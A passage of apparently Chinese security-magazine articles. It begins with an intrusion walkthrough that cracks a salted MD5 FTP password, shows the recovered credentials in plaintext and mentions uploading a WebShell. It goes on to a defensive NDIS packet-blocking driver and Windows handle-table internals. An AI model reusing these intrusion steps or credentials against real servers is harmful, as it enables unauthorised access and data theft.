以上面的 zt828 用户配置为例，将密码 `mk7DC2A4B1A9A9E1F52A7F967FBCAA0A37` 的 `mk` 去掉，将其复制到 MD5.com 网站进行攻击，如图2所示，密码可以被破解，不过需要购买。单击“购买”即可获得其查询的 MD5 值，如图3所示。

“zt828”和密码“ok918918”可成功登录 FTP 服务器，如图4所示。正常进入后可以查看网站源代码、上传 WebShell、获取数据库用户和密码等。

图2 通过 MD5 网站查询 MD5 密码  
图3 获取 MD5 破解后的密码  
图4 成功进入 FTP 服务器

“7DC2A4B1A9A9E1F52A7F967FBCAA0A37”是采用 MD5 进行加密的，其密码为 `mkok918918`，去掉 `mk` 即为 FTP 的密码“ok918918”。

### 4. 验证 FTP

可以使用 FTP IP 地址进行登录，输入用户名。

- 前置知识：驱动
- 关键词：NDIS，驱动，拦截

## 利用 NDIS 中间层驱动实施通信拦截与包阻塞

文/图 Lee Ling Chuan  译/小小衫

近几年，恶意攻击程序发展迅速。每月的恶意软件统计报告显示，截至 2011 年 1 月，卡巴斯基实验室共截获上千万条病毒。现如今，攻击者广泛使用恶意软件控制个人电脑，并窃取个人机密信息。同时也存在某些恶意代码故意隐藏传播途径，并绕过了安全保护机制的检测（如防火墙、嗅探器、防病毒程序、入侵检测系统）。

通常，Windows 系统的安全机制取决于 TCP/IP 协议栈的相关功能。不过微软已经对原始套接字（raw socket，可以接收本机网卡上的数据帧或者数据包）的通信能力进行了如下限制：

- 1. TCP 数据无法通过原始套接字进行发送。
- 2. 带有无效源地址的 UDP 数据报无法通过原始套接字进行发送。
- 3. 原始套接字不能调用 bind() 函数。

原始套接字可以直接访问网络帧头。这样，恶意软件开发者就会滥用虚假帧信息。因此，微软在 Windows XP SP2 及更高版本中强制执行了上述限制措施。限制原始套接字的规则嵌入在 tcpip.sys 和 tcpip6.sys 驱动程序中。绕过这些限制措施的唯一解决方案就是 raw 专用传输层。该方法可以控制所创建的数据包。因此，为查看整个网络通信情况，唯一的方法就是实现 NDIS 协议驱动程序，尤其是在 Windows XP SP2、微软 Vista 和 Windows 7 系统上更应如此。

NDIS（Network Driver Interface Specification），即网络驱动接口规范，其横跨传输层、网络层和数据链路层，定义了网卡或网卡驱动程序与上层协议驱动程序之间的通信接口规范，屏蔽了底层物理硬件的不同，使上层协议驱动程序可以和底层任何型号的网卡通信。NDIS 为网络驱动程序创建了一个完整的开发环境，只需调用 NDIS 函数，而不用考虑操作系统内核以及与其他驱动程序的接口问题，从而使网络驱动程序可以从与操作系统的复杂通信中分离，极大地方便了网络驱动程序的编写。

表1显示了 Winsock 内核（WSK）的 NDIS 接口与 Winsock 接口之间的对比值。Winsock 技术规范定义了 Windows TCP/IP 客户端应用程序和 TCP/IP 协议栈之间的标准接口。WSK 运行在内核模式，并使用传输驱动程序接口（TDI）进行客户端编程。NDIS 规范是运行于内核模式的网络驱动程序，其定义网络驱动程序应该实现的例程。

通常的做法是将 NDIS 与统一的恶意软件分析平台整合起来。此技术的优势在于可以监视包括在内核级传输的网络通信的整个网络通信系统。体现的作用如下：

- 1. 描述 NDIS 中间层驱动程序及其相关程序和函数。
- 2. NDIS 中间层驱动程序的实现，可用于补充恶意软件分析和检测技术。
- 3. NDIS 中间层驱动程序的实现和应用，可检测恶意二进制软件的防御效果。评估测试结果如下：
  - NDIS 能够捕获发生在系统内核级的所有网络通信。
  - NDIS 中间层驱动程序有助于恶意软件研究人员分析活动过程。

| Interface | Benefits | Drawbacks |
|---|---|---|
| Winsock | Easy to use, well documented | Easier to track down |
| WSK | Uses the existing TCP/IP stack; Not as easy to track down | More demanding and less forgiving than Winsock; Must account for protocol-dependent behavior |
| NDIS | Offers the most control; Can spoof packets; Can bypass local firewall | Effort required to implement a new TCP/IP stack; Switches may limit one MAC address per port; Can be conspicuous on packet capture |

这里我们使用 NDIS 中间层驱动程序方法，定位系统架构以拦截并自动阻止恶意网络通信。选择 NDIS 中间层驱动程序的原因是它可以捕获所有通过系统的数据包，包括用户级和可绕过本地防火墙的内核级网络数据包。本文所做的工作就是捕获整个网络通信数据包，并控制其以实时方式运行。网络通信日志文件将被写入到一个用户可读文件，该文件可以按照用户喜好显示任何协议头的内容。

### NDIS 数据包概述

虽然过去几年基于 Windows 主机的网络安全软件在技术上取得了重大进展，但是依然存在许多挑战，其中最大的挑战就是需要底层操作系统来支持收集并监测数据的工作。然而这样就会给恶意程序留下可供攻击的漏洞。基于防火墙和入侵检测系统软件的主机能够绕过各种检测技术，这使得安全研究人员必须寻求新的检测技术以及阻止恶意代码的方法，这就是安全机构使用 NDIS 中间层驱动程序作为解决方案的原因。

卡巴斯基反病毒软件实现了 NDIS 中间层驱动程序技术，而且虽然用户可以禁用卡巴斯基的反病毒 NDIS 过滤功能，但其仍然是安全产品。然而，禁用 NDIS 过滤功能将造成反黑客/防火墙无法执行数据包过滤功能，也无法拦截恶意网络通信。根据文章“基于 NDIS 中间层驱动程序的个人防火墙的设计和实现”，目前防御外来网络攻击和威胁（用户模式下处理数据包）的防火墙技术存在许多局限性。本文建议使用 NDIS 中间层驱动程序，以更好地保护计算机系统的安全。NDIS 数据包用 `NDIS_PACKET` 结构表示，其主要功能是确保正常接收和发送所有网络数据。在发送数据之前，协议驱动程序首先分配 NDIS 数据包，然后用数据填充并发送给下层 NDIS 驱动程序。相反，某些底层 NIC 驱动程序分配数据包空间，用来存储接收的数据并传送给上层驱动程序。NDIS 提供了协助分配并操纵该结构的函数。PCAUSA 网站上有关于 `NDIS_PACKET` 结构的详细描述。

通常，一个 NDIS 数据包就是一个数据包描述符，其包含缓冲描述符和 `NDIS_BUFFER`。链式 `NDIS_BUFFER` 缓冲区的数量取决于 NDIS 数据包的大小。如果数据包较小，那么只有一个链式 `NDIS_BUFFER` 结构，该结构描述包含整个数据包数据的虚拟内存范围。图 1 为多缓冲区 `NDIS_PACKET` 结构，包含两个链式 `NDIS_BUFFER`：一个描述包含以太网头部的虚拟内存范围，另一个描述包含以太网有效载荷的虚拟内存范围。

图 1 多缓冲区 `NDIS_PACKET` 示例

某个典型数据包描述符的内容如下：

- 微型端口（Miniport）NIC 驱动程序和协议驱动程序的专属区。
- 由协作的微型端口和协议驱动程序定义的标记。
- 包含数据包的物理页面数量。
- 数据包总长度。
- 指向第一个缓冲区描述符的指针。

建立网络数据包捕获和检测模型。该系统的工作流程由各种网络数据包构成，这些数据包从传输驱动接口 TDI 层到 NDIS 中间层驱动程序，通过注册的 `MpSend` 功能进行初始分类，再将未认证网络样本发送到机器人工厂，并使用恶意代码样式结果进行再分析。

NDIS 依次调用 `NdisSend`、`NdisSendPacket`、`NdisCoSendPacket` 函数向底层驱动程序发送请求。虽然使用不同函数的发送方在发送数据包内容时方式不同，但仍可用同样的方法分析。因此，系统采用修改的 `NdisSend` 函数来捕获数据包。`NdisSend` 函数原型如下：

一个典型的缓冲区描述符内容如下：

- 起始虚拟地址。
- 虚拟地址偏移量。
- 缓冲区总字节数。
- 指向下一个缓冲区描述符的指针。
- 缓冲区描述符所描述的虚拟存储区域（该区域可能横跨多个页面）。

虚拟范围分配缓冲区描述符所描述的缓冲区，这些虚拟页面将映射到物理内存。

### 数据包发送原理

由于 NDIS 中间层驱动程序是网络数据包传输的唯一途径，所以其拦截整个网络数据包的能力有助于……

```c
void NdisSend(
    OUT PNDIS_STATUS Status,
    IN NDIS_HANDLE NdisBindingHandle,
    IN PNDIS_PACKET Packet
);
```

`NdisSend` 的第二个参数 `NdisBindingHandle` 描述了 `NdisOpenAdapter` 返回的句柄，表示目标 NIC 或与调用者绑定的下一底层驱动程序的虚拟适配器。控制代码指向内部结构体，该内部结构体存储上层驱动发送给下层驱动的信息；下层驱动程序让 NDIS 函数为下一层驱动使用相关函数。

图 2 显示了 NDIS 网络驱动程序栈中发送请求过程。图片顶端是协议驱动程序，下面是两个中间层驱动程序，最底端是微型端口（miniport）。在调用 `NdisSend` 函数之前，协议驱动程序可在 private header（专用头）中设置标记，该头部为分配的数据包描述符保留给 NDIS。这些标记用于指定调用者确定的信息，如未包含在数据包数据中的发送请求操作。底层 NIC 驱动程序的 `MiniportSend` 函数将发送标记作为输入参数。

当串行化的底层驱动程序资源不足以传输有效 send 数据包时，有两种方案：

- `MiniportSend` 函数将数据包插入内部队列，并返回 `NDIS_STATUS_PENDING`。驱动程序保持队列直到资源可用，然后发送数据包。
- `MiniportSend` 函数直接返回 `NDIS_STATUS_RESOURCES`。NDIS 库会为重提交（resubmission）在内部队列保存此类返回的数据包（针对串行化 miniport 驱动程序）。之后调用 `NdisMSendComplete` 和 `NdisMSendResourcesAvailable` 函数，表示该 miniport 驱动程序已准备好接受 send 数据包。

在 `NdisSend` 函数将新的 send 请求发送给下层 miniport 驱动程序之前，NDIS 中间层驱动程序必须将来自上层协议驱动输入的 send 数据包，用新的数据包描述符重新打包。

图 2 调用 `NdisSend` 向底层驱动下发待发送数据包

### 接收分组数据包的原则

`PtReceive` 和 `PtReceivePacket` 函数接收 NDIS 数据包的方式不同。虽然不同接收函数接收数据包内容的方法不相同，但整个分析工作的原理一致。系统采用修改的 `PtReceive` 函数捕获数据包。`PtReceive` 函数原型如下：

```c
PtReceive(
  IN NDIS_HANDLE ProtocolBindingContext,
  IN NDIS_HANDLE MacReceiveContext,
  IN PVOID       HeaderBuffer,
  IN UINT        HeaderBufferSize,
  IN PVOID       LookAheadBuffer,
  IN UINT        LookAheadBufferSize,
  IN UINT        PacketSize
);
```

参数 `LookAheadBufferSize` 指定 `LookAheadBuffer` 的字节大小。如果网络数据包大小小于或等于该参数值，则表明 `LookAheadBuffer` 包含整个网络数据包的所有信息。以下为获取网络数据包的底层驱动程序代码：

```c
Packet = NdisGetReceivedPacket(
    pAdapt->BindingHandle, MacReceiveContext
);
```

根据以上代码可知，如果返回值为空，则表明底层不能提供完整网络数据包；如果返回值不为空，则意味着底层提供了完整网络数据包。如果恶意代码模式确实存在，那么该系统工作流程由网络数据包接收端、初始化、未认证数据以及重分析构成。整个过程类似流水线模式，如图 3 所示。

图 3 系统工作流程类似于流水线模式

miniport 驱动程序层调用 `NdisMIndicateReceive` 或 `NdisMEthIndicateReceive` 函数通知协议驱动层；miniport 驱动程序接收数据包数据。`PtReceive` 或 `PtReceivePacket` 函数调用 `NdisGetReceivedPacket` 接收完整数据包；在这种情况下，`NdisMIndicateReceivePacket` 函数通知 NDIS 调用相应上层 `PtReceive` 例程。

但是，如果 `PtReceive` 或 `PtReceivePacket` 接收到的数据包不完整，则必须调用 `NdisMEthIndicateReceive` 通知 NDIS。调用 `MPReturnPacket` 和 `NdisReturnPacket` 函数来释放小端口层和协议层的临时数据包与资源。如果 `PtReceive/PtReceivePacket` 用 `NdisGetReceivedPacket` 接收到的数据包不完整，而由小端口层接收了完整数据包，小端口层将使用 `NdisMEthIndicateReceiveComplete` 通知 NDIS，同时用 `PtReceiveComplete` 通知协议层已经接收到完整数据包。`NdisTransferData` 函数会提出复制 miniport 驱动层接收到数据的请求。

`NDIS_STATUS_SUCCESS` 返回值表示所请求的数据已被转移；如果返回 `NDIS_STATUS_PENDING`，表示请求被异步处理。在小端口驱动层接收到完整数据包后，将调用 `NdisTransferDataComplete`。如果 `PtTransferDataComplete` 由小端口驱动程序发送到协议层驱动层，则表示整个过程完成。

```c
DbgPrint("Signature Match Success");
++j;
if (T[j] == '\0') {
    DbgPrint("myndis blocking -- malicious traffic detected");
    return STATUS_DROP;
}
```

如果模式不匹配，则允许网络通信通过系统。为了记录 NDIS 中间层驱动程序能够提供的信息，网络活动日志文件必不可少。日志记录器报告可显示源 IP 地址、源端口、目的 IP 地址、目的端口、数据包有效载荷以及拒绝请求原因。所有报告均以 XML 文件形式存储。日志文件基于驱动层使用 `ZwCreateFile` 函数建立 XML 文件的技术实现；`ZwReadFile` 或 `ZwWriteFile` 均可用于读写文件。下面显示了日志文件创建函数的部分源代码。

### 包拦截与通道阻塞的架构设计

NDIS 模型支持混合网络传输 NDIS 驱动程序，称为 NDIS 中间层驱动程序。该驱动程序位于传输驱动程序与 NDIS 驱动程序之间。对于 NDIS 驱动程序而言，NDIS 中间层驱动程序像传输驱动程序；对传输驱动程序而言，NDIS 中间层驱动程序像 NDIS 驱动程序。本节阐述使用 NDIS 中间层驱动程序进行拦截和阻止的架构。图 4 显示了拦截和阻塞流程图。NDIS 中间层驱动程序拦截系统中所有输入与输出网络通信，并将截获数据包传送到扫描检测模块，与预定义恶意代码/恶意软件签名比较。若匹配则阻塞该网络通信，其他通信正常传输。

```c
RtlInitUnicodeString(&usname, L"\\SystemRoot\\System32\\LogFiles\\passthru.log");
InitializeObjectAttributes(&oa, &usname,
    OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);
Status = ZwCreateFile(&hfile, GENERIC_WRITE, &oa,
    &iostatus, NULL,
    FILE_ATTRIBUTE_NORMAL,
    FILE_SHARE_READ, FILE_OVERWRITE_IF,
    FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
```

转存所有网络通信并写入日志文件的程序代码如下：

```c
ZwWriteFile(hfile, NULL, NULL, NULL, &iostatus,
            PrintContent, count, NULL, NULL);
```

有些设备驱动程序和执行组件会创建专门处理 passive 层工作的线程；但通常采用系统工作线程替代，以避免不必要的系统调度和内存开销。这里调用执行函数 `ExQueueWorkItem` 请求系统工作线程服务。该函数在线程工作队列调度对象中放置工作项。工作项包括指向例程的指针以及传给例程的参数。该例程由设备驱动程序或运行在 passive-level 的可执行组件实现。

图 4

如图 4 所示，所有网络通信首先由拦截机制拦截。拦截过程中，整个网络数据包以十六进制格式转存到日志文件。创建日志文件的目的是查看整个网络活动过程。扫描和检测机制将执行模式匹配函数，用预定义唯一签名字符串与截获网络通信数据比较，字符串中每个字符都代表部分恶意代码。这里采用 KMP 算法观察字符串何时出现不匹配。KMP 算法按从左到右顺序查找恶意代码签名样式，看起来与暴力匹配类似，但更智能。

如果模式匹配，NDIS 中间层驱动程序将立即取消该网络通信的传输。`STATUS_DROP` 用于丢弃网络数据包，如上所示。

### 案例分析

笔者用上述组件和技术实现了一个恶意网络通信拦截与分析系统。实验环境如下：两台测试机，一台装有 Apache 和 PHP 的 Web 服务器；另一台作为客户端，安装 NDIS 中间层驱动程序。在该案例中，Adobe Flash 播放器漏洞被用于攻击测试机。所有输入和输出网络通信均被 NDIS 中间层驱动程序拦截，收集 Adobe Flash 播放器漏洞签名并存放在签名匹配列表中。Adobe Flash 播放器漏洞有效载荷唯一字符串设定签名为“`$l/1@TKIQIhIz!`”。

正如上文所述，所有拦截到的网络通信活动都记录在十六进制日志文件中。执行 NDIS 中间层驱动程序后，所有经试验机传输的网络数据包均被截获。若 Adobe Flash 播放器漏洞有效载荷匹配成功，函数将扫描拦截到的网络通信，检测漏洞创建的网络通信，同时 NDIS 中间层驱动程序丢弃恶意网络数据包。

### 小结

恶意软件扫描引擎是保护计算机系统的重要工具，许多用户将其作为防御网络攻击和系统威胁的第一道防护网。随着恶意软件技术发展，攻击受害者计算机的模式逐渐演变为内核模式。然而，大多数个人扫描引擎只处理用户模式下的网络数据包，这也带来很多限制。为了更好保护用户计算机，需要在内核模式下进行安全防护操作。本文深入研究入侵检测系统与防火墙概念，使用 NDIS 中间层驱动程序捕获并过滤恶意网络通信。

前置知识：无

关键词：句柄、对象、Windows

## 深度剖析 Windows 句柄分配

文/图 Matthew "j00ru" Jurczyk 译/小小杉

对象管理器是一个用于创建、删除、保护和跟踪对象的执行体组件，在对象与对象结构体之间起桥梁作用。Ring3 级应用程序只有通过对象标识才能访问系统资源。句柄类型已成为除整型、String 类型之外最常见的变量类型。但至今 Microsoft 并未给出句柄类型精确格式的官方文档。因此，对象标识符可视为数字 ID、特殊位图格式甚至传统指针。其主要原因是没有与句柄相关的服务或 API 函数可利用句柄值特性。理论上，仅对象管理器会对对象 ID 布局感兴趣，因为其负责执行句柄与对象之间的翻译，即如何从句柄值映射到具体对象。

Windows 内核其他部分若需要访问这些对象，必须借助对象管理器提供的公共接口，即以 “Ob” 为前缀的内核导出函数，如 `nt!ObReferenceObjectByHandle` 或 `nt!ObDereferenceObject`。虽然如此，更多读者可能对特殊句柄值格式以及句柄分配算法感兴趣，包括句柄分配与释放的内部实现。这些内容对 Windows 底层开发者更实用，相关原理可帮助其理解如何利用句柄使用/释放漏洞控制系统或主机特定资源的数值类型。

### 句柄格式写作规则

Windows 句柄值与处理器数据宽度一致：32bit 系统为 32bit，64bit 系统为 64bit。这些值作为句柄表索引管理，典型 32-bit 句柄值如图 1 所示。

图 1

句柄值每部分含义如下：

- 内核句柄标识：用户模式下进程无法访问，属于受系统范围保护的句柄。
- 句柄实体：句柄表中的索引值，这部分内容值不能小于 0，最小值为 `0x4`。
- 额外 bit 位：保留给程序开发者使用。保留两个 bit 的额外信息可参考 Windows 内核研究资源及其公共头文件。

Raymond Chen 在 The Old New Thing 博客上详细分析了额外两比特在内核句柄中的作用，可参考：

- `http://blogs.msdn.com/b/oldnewthing/archive/2008/08/27/8898863.aspx`
- `.../archive/2008/08/28/8902173.aspx`
- `.../archive/2008/08/29/8904342.aspx`

句柄表由一组结构体列表（句柄描述符）组成，其中包含此前通过该表打开的对象指针。尽管表结构是三级实现，但通常只使用第 1 级，随后随进程请求增加再引入其他层级。

每个进程都拥有且仅拥有一个句柄表，整体机制类似 x86 虚拟内存分页管理。虚拟地址在不同进程上下文中不一定指向同一物理地址，句柄也不一定访问相同系统资源。存在特例 `nt!PspCidTable` 和 `nt!ObpKernelHandleTable`，其格式与普通句柄表一致，但与每进程私有句柄表存在差异。

### 表 1

| 项目 | 说明 |
|---|---|
| `PspCidTable` 归属 | `PspCidTable` 是独立句柄表；每个进程私有句柄表通过双链表 `HandleTableListHead` 连接，不属于任何进程 |
| `PspCidTable` 内容 | 存放系统中的进程和线程对象，其索引即 PID 和 TID |
| 存放对象形式差异 | `PspCidTable` 直接存放对象体（`EPROCESS`/`ETHREAD`），而进程私有句柄表存放对象头（`OBJECT_HEADER`） |

`ObpKernelHandleTable` 是与系统进程相关的句柄表，用于存放内核模式下所有句柄。

其存在 ring0 级代码访问。句柄属性可通过 `InitializeObjectAttributes` 宏设置 `Attribute = OBJ_KERNEL_HANDLE`。图 2 给出了 x86 系统每个句柄表节点的大致结构（上 2 个 32bits），包括对象结构内核模式地址、标识开放资源权限访问掩码等。

`Lock` 标识当前句柄是否正在使用；`Inheritable` 若设置，表示对象可被父进程创建的子进程继承；第三个标识用于标记句柄关闭时是否生成审计日志。除 `Lock` 会在 `CloseHandle` 时清除外，其他标识可由用户控制。详见 MSDN `SetHandleInformation` 函数。

### 表 2

句柄表项 `HANDLE_TABLE_ENTRY` 的完整定义如下：

```text
kd> dt _HANDLE_TABLE_ENTRY
nt!_HANDLE_TABLE_ENTRY
   +0x000 Object : Ptr32 Void
   +0x000 ObAttributes : Uint4B
   +0x000 InfoTable : Ptr32 _HANDLE_TABLE_ENTRY_INFO
   +0x000 Value : Uint4B
   +0x004 GrantedAccess : Uint4B
   +0x004 GrantedAccessIndex : Uint2B
   +0x006 CreatorBackTraceIndex : Uint2B
   +0x004 NextFreeTableEntry : Int4B
```

图 2

### 句柄分配

Microsoft 并没有提供接口文档可直接操作内部句柄结构（如句柄表）。句柄的分配完全由对象管理器负责，并不向第三方 Windows 程序开发人员公开。如图 3 所示，用户模式下的句柄操作只能借助特定对象类型的服务函数（如 NtCreateFile、NtCreateJobObject）或者 NtClose 等；而内核模式下则可使用类似 nt!Ob* 的导出函数，但仍然无法直接使用底层的句柄分配函数。为了了解上层 API 函数请求句柄对象时，系统内部是如何实现资源分配的，下面将深入调查未导出的对象管理器相关函数。

图 3

任一进程在创建对象时，系统都要为此对象分配一个句柄，即在进程的句柄表中创建一个新句柄。就句柄分配而言，nt!ObpCreateHandle 函数主要用来初始化两个局部变量 PHANDLE_TABLE 和 HANDLE_TABLE_ENTRY，然后在函数内部调用 ExCreateHandle 创建一个句柄表项 Entry，并初始化此表项，部分代码实现如下：

```c
NTSTATUS ObpCreateHandle(
    IN OB_OPEN_REASON OpenReason,
    IN PVOID Object,
    IN POBJECT_TYPE ExpectedObjectType OPTIONAL,
    IN PACCESS_STATE AccessState,
    IN ULONG ObjectPointerBias OPTIONAL,
    IN ULONG Attributes,
    IN POBP_LOOKUP_CONTEXT LookupContext,
    IN KPROCESSOR_MODE AccessMode,
    OUT PVOID *ReferencedNewObject OPTIONAL,
    OUT PHANDLE Handle)
{
    PVOID ObjectTable;
    HANDLE_TABLE_ENTRY ObjectTableEntry;
    HANDLE NewHandle;
    /* 获取对象头及类型并检测类型是否匹配 */
    (...)
    /* 检验是否为内核句柄 */
    if (Attributes & OBJ_KERNEL_HANDLE) {
        ObjectTable = ObpKernelHandleTable;
        (...) // 判断此进程是否为系统进程
    }
    else {
        ObjectTable = PsGetCurrentProcess()->ObjectTable; // 获取当前句柄表
    }
    /* 初始化 ObjectTableEntry.Object and ObjectTableEntry.GrantedAccess */
    /* 调用 ExCreateHandle 之前需要调用 ObpIncrementHandleCount() 函数增加句柄计数 */
    /* 确保对象安全性有效 */
    NewHandle = ExCreateHandle(ObjectTable, &ObjectTableEntry);
    (...)
}
```

函数的具体实现代码可参考：  
http://doxygen.reactos.org/d4/df6/obhandle_8c_a202d572ea4dc48c5dd053923c01e867a.html

nt!ExCreateHandle 实际上封装了真正的句柄分配函数，即 nt!ExpAllocateHandleTableEntry。系统通过 ExpAllocateHandleTableEntry 实现句柄的分配，然后将 HandleTableEntry 结构体各参数赋值给新创建的 Entry。函数 ExCreateHandle 的实现代码如下：

```c
HANDLE NTAPI ExCreateHandle(
    IN PHANDLE_TABLE HandleTable,
    IN PHANDLE_TABLE_ENTRY HandleTableEntry)
{
    EXHANDLE Handle;
    PHANDLE_TABLE_ENTRY NewEntry;
    PAGED_CODE();
    /* Start with a clean handle */
    Handle.GenericHandleOverlay = NULL;
    /* 分配一个新句柄表项 */
    NewEntry = ExpAllocateHandleTableEntry(HandleTable, &Handle);
    if (NewEntry)
    {
        /* 禁用内核模式异步调用 APCs，进入关键段 */
        KeEnterCriticalRegion();
        /* Write the entry */
        *NewEntry = *HandleTableEntry;
        /* 解锁并离开关键段 */
        ExUnlockHandleTableEntry(HandleTable, NewEntry);
        KeLeaveCriticalRegion();
    }
    /* Return the handle value */
    return Handle.GenericHandleOverlay;
}
```

下面我们将重点分析句柄分配算法的实现。事实上，整个分配算法包括 3 个重要步骤，若 3 个步骤都无法找到一个新的合法句柄，则函数抛出异常错误。

- 访问 HandleTable->FirstFree 值，若非零，则分配此节点并更新 FirstFree 域，返回成功。
- 调用 nt!ExpMoveFreeHandles，以利用空闲交换列表中的空闲句柄；若找到空闲句柄，则更新 FirstFree 域，并返回成功。
- 调用 nt!ExpAllocateHandleTableEntrySlow，以扩展句柄表当前大小；若扩展成功，至少可产生一个新句柄值。
- 若上述方法都失败，函数则认定此请求无法满足，并返回错误。

内核管理着两个重要的空闲句柄队列，即 FirstFree 和 LastFree 队列。句柄分配函数首先检查 HandleTable->FirstFree 是否为空。若为空，则表示 FreeHandleList 队列中不存在 FirstFree 可分配；此时函数获取与此句柄相关的句柄表项 Entry，然后修改 HandleTable->FirstFree 使其指向下一个 NextFreeTableEntry。

```c
Handle.Value = (HandleTable->FirstFree & FREE_HANDLE_MASK);
Entry = ExpLookupHandleTableEntry(HandleTable, Handle);
/* 获取新申请到的 HANDLE_TABLE_ENTRY 中的 NextFreeTableEntry */
NewValue = *(volatile ULONG *)&Entry->NextFreeTableEntry;
/* 将 NewValue 赋值给 HandleTable->FirstFree */
NewValue1 = InterlockedCompareExchange((PLONG)&HandleTable->FirstFree, NewValue, OldValue);
```

（注释：函数 InterlockedCompareExchange 的作用即将参数 1 与参数 3 的值进行比较，若相同则将参数 2 的值赋给参数 1。）此时步骤（2）、步骤（3）、步骤（4）都略去。

若非空，则转入步骤（2）执行。这里假设测试程序打开了 3 个文件对象，故需请求分配 3 个句柄，然而 FirstFree 队列此时已经为空，ExpMoveFreeHandles 函数会将 LastFree 队列中的空闲句柄表项 move 到 FirstFree 队列。

函数会先检查 HandleTable->LastFree 是否为 0，不为 0 则开始进行队列表项调整；若没有设置 StrictFIFO，就直接设置 FirstFree 指向队列头，反之则将队列逆序后再设置 FirstFree 指向队列头。StrictFIFO=0（普通进程）时，申请与释放都在 FirstFree 队列头部进行；StrictFIFO=1 时，会遍历 FirstFree，必要时将 LastFree 反向插入 FirstFree 队列末尾。具体分配过程如图 4 和图 5 所示。

应用程序再次请求分配句柄对象时，若 StrictFIFO=1，则 ExpMoveFreeHandles 函数会将 LastFree 队列中的 Entry 逆向，并插入到 FirstFree 队列，如图 5 所示。下面给出函数 move 队列表项的具体实现：

```c
/* 遍历整个队列，并逆向队列，然后将 HandleTable->FirstFree 指向逆向后的队列首个节点 */
FreeSize = OldIndex = 0;
FirstEntry = NULL;
while (1) {
    FreeSize++;
    Handle.Value = Index;
    Entry = ExpLookupHandleTableEntry(HandleTable, Handle);
    EXASSERT(Entry->Object == NULL);
    NewIndex = Entry->NextFreeTableEntry;
    Entry->NextFreeTableEntry = OldIndex;
    if (OldIndex == 0) {
        FirstEntry = Entry;
    }
    OldIndex = Index;
    if (NewIndex == 0) break;
    Index = NewIndex;
}
/* 将 OldIndex 赋值给 HandleTable->FirstFree */
NewValue = ExpInterlockedExchange(&HandleTable->FirstFree, OldIndex, FirstEntry);
```

若步骤（1）、步骤（2）都无法满足要求时，系统会调用 ExpAllocateHandleTableEntrySlow 分配一个新的句柄表，实现对句柄表的扩容。每次增加粒度都是一个一级表的大小（大小为 PAGE_SIZE，句柄容量为 PAGE_SIZE / sizeof(HANDLE_TABLE_ENTRY) * HANDLE_VALUE_INC = 0x800）。

前面简单提过，句柄表的管理实际上很类似虚拟内存页管理机制，采用 3 级表结构实现句柄的分配。系统根据 `ULONG TableLevel = (ULONG)(TableCode & 3)` 判断当前句柄级数；若级数为 0，则需要申请一个二级表项，并同时增加一级表，更新新增的二级表项指向一级表；若级数为 1，则已经是二级表，此时需要判断当前一级表个数是否小于二级表最大容量，若小于二级表最大容量，可直接分配一个新的句柄表项，判断方式如下：

`i = HandleTable->NextHandleNeedingPool / SizeOfHandle(LOW_LEVEL_ENTRIES);`

反之，则需要再申请一个三级表等。这里就不再赘述三级表分配策略，读者感兴趣的可参考：  
http://doxygen.reactos.org/de/d51/ntoskrnl_2ex_2handle_8c_a8e7b0c9ba21950182ff7c2a091d99e9.html

### 句柄销毁

对象管理器使用 ObpCloseHandleTableEntry 函数销毁对象句柄值。函数首先做一系列检查，如是否允许关闭以及关闭的对象是否正确等，然后调用 ExDestroyHandle() 完成句柄的销毁动作，主要步骤如下。

- 句柄值清零：`InterlockedExchangePointer((PVOID*)&HandleTableEntry->Object, NULL);`
- 标识句柄描述符为 Free，同时清除 Lock flag。
- 将原句柄值 push 到某个可用的空闲列表中。

其中，步骤（3）主要通过函数 `ExpFreeHandleTableEntry` 实现，具体代码如下：

```c
VOID NTAPI ExpFreeHandleTableEntry(
    IN PHANDLE_TABLE HandleTable,
    IN EXHANDLE Handle,
    IN PHANDLE_TABLE_ENTRY HandleTableEntry)
{
    ULONG OldValue, NewValue, *Free;
    ULONG i;
    PAGED_CODE();
    ASSERT(HandleTableEntry->Object == NULL);
    ASSERT(HandleTableEntry == ExpLookupHandleTableEntry(HandleTable, Handle));
    InterlockedDecrement(&HandleTable->HandleCount);
    NewValue = (ULONG)Handle.Value & ~(SizeOfHandle(1)-1);
    ...
}
```

```c
if (!HandleTable->StrictFIFO) {
    i = (NewValue >> 2) % 4;
    Free = (HandleTable->HandleTableLock[i].Locked) ?
        &HandleTable->FirstFree :
        &HandleTable->LastFree;
} else {
    Free = &HandleTable->LastFree;
}
for (;;) {
    OldValue = *Free;
    HandleTableEntry->NextFreeTableEntry = (ULONG)OldValue;
    if (InterlockedCompareExchange((PLONG)Free, NewValue, OldValue) == OldValue) {
        ASSERT((OldValue & FREE_HANDLE_MASK) < HandleTable->NextHandleNeedingPool);
        break;
    }
}
```

上述代码中，我们主要关注 StrictFIFO 是否设置。若 `StrictFIFO=0`，则 `Free` 指向 `HandleTable->FirstFree` 或 `HandleTable->LastFree`（取决于锁状态）；若 `StrictFIFO=1`，则 `Free = &HandleTable->LastFree`。而后的步骤是一致的，即将待销毁的 Entry 插入到空闲队列中，只不过选择的队列分别为 `FirstFree` 和 `LastFree` 而已。上面的三行代码：

```c
OldValue = *Free;
HandleTableEntry->NextFreeTableEntry = (ULONG)OldValue;
InterlockedCompareExchange((PLONG)Free, NewValue, OldValue)
```

完全类似于单链表中头结点插入法，即将待插入节点 `p->next = Free->next`，然后再将 `Free->next = p` 实现节点头插入。故 StrictFIFO 是否设置十分重要，不仅影响待销毁句柄项的插入，同时也进一步影响空闲句柄的分配。显然，`StrictFIFO=0` 时，句柄 Entry 在队列中是 LIFO（后进先出）；而 `StrictFIFO=1` 时，则为 FIFO。

### 安全隐患

考虑以下场景：运行在 Windows 驱动服务器上的用户服务进程提供了一个公共的进程间通信接口，且此接口可以被系统下的任意程序使用。则通过此服务器共享了三种可能的调用方法。

- `OpenFile(PCHAR FileName)` —— 利用服务打开一个特殊文件的句柄，然后将句柄保存到与当前会话相关的内部结构中。
- `CloseFile()` —— 关闭当前已打开的文件句柄。
- `WriteToFile(PBYTE Data)` —— 对已打开的文件写入二进制数据。

